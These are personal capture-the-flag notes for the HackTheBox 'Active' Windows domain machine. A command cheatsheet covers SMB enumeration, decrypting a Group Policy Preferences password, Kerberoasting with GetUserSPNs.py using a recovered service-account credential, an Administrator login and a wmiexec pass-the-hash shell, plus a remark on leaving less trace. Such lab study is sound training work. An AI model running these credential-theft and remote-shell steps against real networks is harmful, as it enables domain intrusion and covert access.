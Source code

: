 # Active \[Windows AD Easy]

{% embed url="https://medium.com/r3d-buck3t/attacking-service-accounts-with-kerberoasting-with-spns-de9894ca243f" %}

{% embed url="https://0xdf.gitlab.io/2018/12/08/htb-active.html" %}

## Report

Enumerate SMB shares to find Group.xml.&#x20;

In previous Windows versions, Group Policy Preferences allowed administrators to modify users and groups across their network. AES encrypted but Microsoft leaked it meaning all those passwords are useless now so if you find this calm.

FInd username and password for it.

Now perform kerboroasting, run GetUserSPNs.py to&#x20;

## Cheatsheet

```
smbclient -L <ip>
smbclient -N -L //10.10.10.100

smbmap -H <ip> -r Replication --depth 2  [depending on depth go further in]
smbmap -H <ip> -r Replication --depth 7 
smbmap -H 10.10.10.100 --download Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

gpp-decrypt <hash>

python3 GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 
python3 GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100  -request <get ticket here>

smbmap/ smbclient to login as admin
smbclient //10.10.10.100/Users -U Administrator
```

## Proof

Groups.xml is located at `\\SYSVOL<DOMAIN>\Policies\`

The Replication folder is just a copy of SYSVOL, use gpp-decrypt to get the password.

**Service Principal Names (SPNs) -** _maps the host/user service accounts to running services._

> _If you find this **error** from Linux: **Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)** it because of your local time, you need to synchronize the host with the DC:_
>
> _**ntpdate \<IP of DC>**_

## TODO

We did on Linux, possible on WIndows with PowerView, first article shows how.

Ippsec ran Bloodhound on this, how get a shell to use wo evil-winrm and switching to Windows box?

`wmiexec.py -hashes <hash> htb.local/administrator@10.10.10.161`

This tool does give us a shell, do check it out could be handy

{% embed url="https://medium.com/@allypetitt/windows-remoting-difference-between-psexec-wmiexec-atexec-exec-bf7d1edb5986" %}
wmiexec best, no write on disk so leave less trace, need write priv to $admin for all?
{% endembed %}
